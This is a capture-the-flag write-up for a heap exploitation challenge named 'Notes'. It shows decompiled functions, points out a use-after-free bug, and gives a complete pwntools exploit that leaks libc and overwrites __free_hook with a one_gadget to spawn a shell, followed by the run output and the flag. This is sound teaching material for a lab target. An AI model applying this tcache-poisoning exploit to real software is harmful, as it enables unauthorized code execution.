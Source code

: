 # Notes

> You can always manage your notes
> nc 40.71.72.198 1235



Given 2 files, the binary itself and libc version 2.27. From that version we know that this libc is using tcache bins. Lets try run and decompile the program. 

```
➜  Notes git:(main) ✗ ./task2 
Select an action
(1) create a note
(2) delete a note
(3) edit a note
(4) view a note
(5) exit
>> 
```

Same as usual "notes" challenge, this is heap exploitation task. Now reverse the binary using IDA.

**create()**

~~~C
unsigned int create()
{
  int nbytes; // [rsp+8h] [rbp-98h] BYREF
  int nbytes_4; // [rsp+Ch] [rbp-94h]
  char buf[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v4; // [rsp+98h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  nbytes_4 = read_index();
  if ( nbytes_4 == -1 || *((_QWORD *)&notes + nbytes_4) )
    return puts("wrong index");
  puts("size : ");
  printf(">> ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes <= 0 || nbytes > 143 )
    return puts("That's too much !");
  *((_QWORD *)&notes + nbytes_4) = malloc(nbytes);
  puts("content : ");
  printf(">> ");
  read(0, buf, (unsigned int)nbytes);
  buf[strlen(buf) - 1] = 0;
  return (unsigned int)strcpy(*((char **)&notes + nbytes_4), buf);
}
~~~

**delete()**

~~~C
int delete()
{
  int result; // eax

  result = read_index();
  if ( result != -1 )
  {
    free(*((void **)&notes + result));
    return puts("note deleted");
  }
  return result;
}
~~~

**edit()**

~~~C
int edit()
{
  int result; // eax
  size_t v1; // rax
  int v2; // [rsp+Ch] [rbp-4h]

  result = read_index();
  v2 = result;
  if ( result != -1 )
  {
    puts("New content : ");
    printf(">> ");
    v1 = strlen(*((const char **)&notes + v2));
    read(0, *((void **)&notes + v2), v1);
    return puts("note updated !");
  }
  return result;
}
~~~

**view()**

~~~C
int view()
{
  __int64 v0; // rax
  int index; // [rsp+Ch] [rbp-4h]

  index = read_index();
  v0 = *((_QWORD *)&notes + index);
  if ( v0 && index != -1 )
    LODWORD(v0) = puts(*((const char **)&notes + index));
  return v0;
}
~~~



The bug is **edit()** and **view()** function didnt check if the heap is freed or not. So we get **Use-After-Free** here. Theres some restriction in **create()**  that we cant allocate more than 143 bytes, but this is not a hard problem. Now jump into exploitation step



### Main Idea

The main idea of the exploitation is :

- Allocate 10 chunk with size 143 so that our chunk will placed at tcache and unsorted bin 
- free all the chunk
- Leak the main arena pointer in order to get libc base
- Allocate and free 2 chunk with size 8
- Edit the chunk with __free_hook address
- malloc with one_gadget address



### Exploitation

**solver.py**

~~~python
from pwn import *


# f = process("./task2")
f = remote("40.71.72.198", 1235)
ELF_libc = ELF("libc-2.27.so")

def malloc(idx, size, content):
	f.sendlineafter(">> ", "1")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(size))
	f.sendlineafter(">> ", str(content))

def free(idx):
	f.sendlineafter(">> ", "2")
	f.sendlineafter(">> ", str(idx))

def edit(idx, content):
	f.sendlineafter(">> ", "3")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(content))

def show(idx):
	f.sendlineafter(">> ", "4")
	f.sendlineafter(">> ", str(idx))




if len(sys.argv) > 2:
	gdb.attach(f, "c")

for i in range(10):
	malloc(i, 143, "")

for i in range(9):
	free(i)



show(7)
leak = f.recvline().strip()
leak = leak.ljust(8, "\x00")
leak = u64(leak)
libc = leak - 4111520 # main_arena
log.info("libc base @ " + hex(libc))
target = libc+ELF_libc.symbols['__free_hook']
log.info("__free_hook @ " + hex(target))
one_shot = libc + 0x4f432

# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL

# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a41c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


malloc(10, 8, "")
malloc(11, 8, "")
free(10)
free(11)
edit(11, p64(target).replace("\x00", ""))
malloc(12, 8, "")
malloc(13, 8, p64(one_shot).replace("\x00", ""))
free(12)

f.interactive()
~~~



```
➜  Notes git:(main) ✗ python solver.py 
[+] Opening connection to 40.71.72.198 on port 1235: Done
[*] '/home/syahrul/Desktop/Writeups/FwordCTF_2021/pwn/Notes/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base @ 0x7f31fe952000
[*] __free_hook @ 0x7f31fed3f8e8
[*] Switching to interactive mode
$ ls
flag.txt
task2
task2.c
ynetd
$ cat flag.txt
FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478}
$ 
```



**FLAG:** FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478} 
